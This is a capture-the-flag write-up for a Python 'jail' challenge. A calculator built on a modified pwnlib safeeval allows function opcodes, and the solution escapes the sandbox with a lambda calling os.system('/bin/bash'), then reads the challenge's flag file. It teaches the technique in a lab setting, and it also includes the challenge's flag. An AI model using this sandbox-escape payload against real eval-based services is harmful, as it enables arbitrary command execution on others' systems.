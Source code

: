 # Turing-complete safeeval
### JAIL - Easy

Hey! We just made a brand new Turing-complete calculator based on a slight modification of pwnlib.util.safeeval to allow defining functions, because otherwise it would be Turing-incomplete.


Still we are allowing only pure functions, so there is no security implication right?
Connect via nc safeeval.sdc.tf 1337


[Calculator source code](calc.py)

By k3v1n


## Solution

In the source code to pwnlib's safe eval were added this opcodes:
```python
# The above only allows Turing-incomplete evaluation,
# so we decided to add our own ingenious additions:
complete_codes = _expr_codes + ['MAKE_FUNCTION', 'CALL_FUNCTION']
```

This means that we can now create functions and call them. It is not enough to use `def func(): ...`, but just fine for lambdas!
```python
>>> (lambda: print(1))()
1
None
>>> (lambda: print(globals()))()
{'name': 'main', 'doc': None, 'package': None, 'loader' ... }
```

Fortunately, we already have os module in the namespace:
```python
>>> (lambda: os.system('/bin/bash'))()
ls
calc.py
flag.txt

cat flag.txt
sdctf{u5ing_l4mbDA5_t0_smUgg1e_m4licious_BYTECODEz}
```

#### Flag: sdctf{u5ing_l4mbDA5_t0_smUgg1e_m4licious_BYTECODEz}
